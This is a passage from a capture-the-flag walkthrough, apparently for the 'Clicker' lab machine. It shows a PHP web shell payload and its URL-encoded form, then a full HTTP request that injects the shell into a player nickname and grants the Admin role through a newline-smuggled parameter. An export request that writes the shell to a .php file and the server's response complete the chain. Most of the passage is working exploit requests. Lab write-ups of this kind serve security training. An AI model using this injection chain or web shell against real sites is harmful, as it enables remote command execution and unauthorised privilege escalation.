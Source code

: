 Based on this we can probably inject PHP code into the nickname the same way we did for adding administrative privileges to our account. make sure you add a large amount of clicks as well so you're for sure in the top players. As a payload i'm just going to use a very basic command interpreter in php.
```
<?php system($_GET['cmd']) ?>
```
Seeing we are going to be using this in a URL i URL encoded all the characters we needed making us end up with the following command.
```
<%3fphp+system($_GET['cmd'])+%3f>
```
Next we send the following request to make us end up with a high ranking player with our payload in the nickname

```
GET /save_game.php?clicks=999999999999999999&level=600&role%0a=Admin&&nickname=<%3fphp+system($_GET['cmd'])+%3f> HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://clicker.htb/play.php
Cookie: PHPSESSID=t7nav29pjbsd0omvf7edup7bac
Upgrade-Insecure-Requests: 1
```

Then after we added this nickname generate a new export with the following request
```
POST /export.php HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Origin: http://clicker.htb
Connection: close
Referer: http://clicker.htb/admin.php?msg=Data%20has%20been%20saved%20in%20exports/top_players_xbv0g6zl.txt
Cookie: PHPSESSID=t7nav29pjbsd0omvf7edup7bac
Upgrade-Insecure-Requests: 1

threshold=1&extension=php
```

The server then issued the following valid response giving us the URL we would find our export.

```
HTTP/1.1 302 Found
Date: Sat, 04 Nov 2023 15:27:36 GMT
Server: Apache/2.4.52 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: /admin.php?msg=Data has been saved in exports/top_players_gt0ln37v.php
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8
```

